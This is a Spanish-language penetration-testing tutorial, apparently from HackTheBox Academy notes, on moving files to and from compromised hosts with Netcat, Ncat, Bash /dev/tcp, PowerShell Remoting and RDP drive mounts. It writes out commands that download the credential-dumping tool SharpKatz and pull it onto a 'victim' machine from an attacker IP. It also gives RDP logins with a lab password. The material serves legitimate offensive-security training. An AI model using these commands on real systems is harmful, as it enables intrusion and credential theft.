


# Miscellaneous File Transfer Methods

Hemos cubierto varios métodos para transferir archivos en Windows y Linux, utilizando diferentes lenguajes de programación. A continuación, exploraremos métodos alternativos como el uso de **Netcat**, **Ncat**, y transferencias de archivos mediante sesiones de **RDP** y **PowerShell**.

## **Netcat**

**Netcat** (a menudo abreviado como `nc`) es una utilidad de redes para leer y escribir en conexiones de red utilizando TCP o UDP, lo que permite operaciones de transferencia de archivos. El Netcat original fue lanzado en 1995 por **Hobbit**, pero no ha sido mantenido a pesar de su popularidad. Debido a su flexibilidad, el proyecto Nmap produjo **Ncat**, una reimplementación moderna que soporta SSL, IPv6, proxies SOCKS y HTTP, entre otras funcionalidades.

En este apartado, utilizaremos tanto el Netcat original como Ncat.

> **Nota**: Ncat es utilizado en **PwnBox** de HackTheBox como `nc`, `ncat` y `netcat`.

## Transferencia de Archivos con Netcat y Ncat

La máquina comprometida o la máquina atacante pueden iniciar la conexión, lo cual es útil si un firewall impide el acceso al objetivo. En este ejemplo, transferiremos **SharpKatz.exe** desde nuestro Pwnbox a la máquina comprometida, utilizando dos métodos.

### **Netcat - Máquina Comprometida - Escuchando en el Puerto 8000**

Primero, iniciaremos Netcat (`nc`) en la máquina comprometida, escuchando con la opción `-l`, seleccionando el puerto 8000 con `-p 8000`, y redirigiendo la salida estándar (`stdout`) con `>` hacia el archivo `SharpKatz.exe`.

```bash
victim@target:~$ # Ejemplo usando Netcat Original
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

Si la máquina comprometida está usando Ncat, necesitaremos especificar `--recv-only` para cerrar la conexión una vez que la transferencia haya finalizado.

```bash
victim@target:~$ # Ejemplo usando Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### **Netcat - Máquina Atacante - Enviando Archivo a la Máquina Comprometida**

Desde nuestra máquina atacante, nos conectaremos a la máquina comprometida en el puerto 8000 usando Netcat y enviaremos el archivo **SharpKatz.exe** como entrada (`input`) a Netcat. La opción `-q 0` le indicará a Netcat cerrar la conexión una vez finalizada la transferencia.

```bash
sherlock28@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Con Ncat en la máquina atacante, podemos usar la opción `--send-only` en lugar de `-q`. El flag `--send-only` hace que Ncat termine una vez que su entrada haya sido agotada.

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### **Transferencia Inversa: Escuchando en la Máquina Atacante**

En lugar de escuchar en la máquina comprometida, podemos conectarnos a un puerto en nuestra máquina atacante para realizar la transferencia de archivos. Este método es útil si hay un firewall que bloquea conexiones entrantes. Escucharemos en el puerto 443 de nuestro **Pwnbox** y enviaremos el archivo **SharpKatz.exe** como entrada a Netcat.

### **Máquina Atacante - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Máquina Comprometida - Conectándose a Netcat para Recibir el Archivo**

```bash
victim@target:~$ # Ejemplo usando Netcat Original
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Podemos hacer lo mismo usando Ncat:

### **Máquina Atacante - Enviando Archivo como Entrada a Ncat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Máquina Comprometida - Conectándose a Ncat para Recibir el Archivo**

```bash
victim@target:~$ # Ejemplo usando Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Si no tenemos Netcat o Ncat en la máquina comprometida, Bash también admite operaciones de lectura/escritura utilizando un archivo pseudo-dispositivo `/dev/TCP/`.

Escribir en este archivo abre una conexión TCP a `host:port`, y esta característica puede ser utilizada para transferencias de archivos.

### **Netcat - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Netcat Original
sherlock28@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### **Ncat - Enviando Archivo como Entrada a Netcat**

```bash
sherlock28@htb[/htb]$ # Ejemplo usando Ncat
sherlock28@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Máquina Comprometida Conectándose a Netcat Usando /dev/tcp para Recibir el Archivo**

```bash
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

> **Nota**: La misma operación puede utilizarse para transferir archivos desde el host comprometido hacia nuestro **Pwnbox**.

## Transferencia de Archivos en Sesión de PowerShell

Ya hablamos sobre realizar transferencias de archivos con PowerShell, pero puede haber escenarios donde HTTP, HTTPS o SMB no estén disponibles. En esos casos, podemos usar **PowerShell Remoting**, también conocido como **WinRM**, para realizar operaciones de transferencia de archivos.

**PowerShell Remoting** nos permite ejecutar scripts o comandos en un ordenador remoto utilizando sesiones de PowerShell. Los administradores suelen usar esta técnica para gestionar ordenadores remotos en una red, y nosotros también podemos utilizarla para transferir archivos. De forma predeterminada, habilitar PowerShell Remoting crea tanto un listener HTTP como uno HTTPS. Los listeners se ejecutan en los puertos TCP/5985 para HTTP y TCP/5986 para HTTPS.

Para crear una sesión de PowerShell Remoting en un ordenador remoto, necesitamos acceso administrativo, ser miembro del grupo de Usuarios de Gestión Remota, o tener permisos explícitos para PowerShell Remoting en la configuración de la sesión. Vamos a crear un ejemplo y transferir un archivo desde **DC01** a **DATABASE01**, y viceversa.

Tenemos una sesión como Administrador en **DC01**, el usuario tiene derechos administrativos sobre **DATABASE01**, y PowerShell Remoting está habilitado. Utilicemos `Test-NetConnection` para confirmar que podemos conectar a **WinRM**.

### **Desde DC01 - Confirmar que el puerto TCP 5985 de WinRM está abierto en DATABASE01**

```powershell
PS C:\htb> whoami
htb\administrator

PS C:\htb> hostname
DC01

PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Dado que esta sesión ya tiene privilegios sobre **DATABASE01**, no es necesario especificar credenciales. En el ejemplo a continuación, se crea una sesión en el ordenador remoto llamado **DATABASE01** y se almacena en la variable `$Session`.

### **Crear una Sesión de PowerShell Remoting a DATABASE01**

```powershell
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

Podemos usar el cmdlet `Copy-Item` para copiar un archivo desde nuestra máquina local **DC01** hacia la sesión **DATABASE01** que hemos creado en `$Session`, o viceversa.

### **Copiar `samplefile.txt` desde nuestro Localhost hacia la sesión de DATABASE01**

```powershell
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

### **Copiar `DATABASE.txt` desde la sesión de DATABASE01 hacia nuestro Localhost**

```powershell
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

**RDP** (Remote Desktop Protocol) se usa comúnmente en redes Windows para acceso remoto. Podemos transferir archivos usando **RDP** copiando y pegando. Podemos hacer clic derecho y copiar un archivo desde la máquina Windows a la que nos conectamos y pegarlo en la sesión RDP.

Si nos conectamos desde Linux, podemos usar `xfreerdp` o `rdesktop`. En el momento de redactar, ambas herramientas permiten copiar archivos desde nuestra máquina objetivo hacia la sesión RDP, pero puede haber escenarios en los que esto no funcione como se espera.

Como alternativa a copiar y pegar, podemos montar un recurso local en el servidor RDP remoto. Tanto `rdesktop` como `xfreerdp` permiten exponer una carpeta local en la sesión RDP remota.

### **Montar una Carpeta en Linux Usando rdesktop**

```bash
sherlock28@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

### **Montar una Carpeta en Linux Usando xfreerdp**

```bash
sherlock28@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Para acceder al directorio, podemos conectarnos a `\\tsclient\`, lo que nos permitirá transferir archivos hacia y desde la sesión RDP.

<figure><figcaption></figcaption></figure>

> **Nota**: Esta unidad no es accesible para otros usuarios que inicien sesión en el equipo objetivo, incluso si logran secuestrar la sesión RDP.

<figure><figcaption></figcaption></figure>
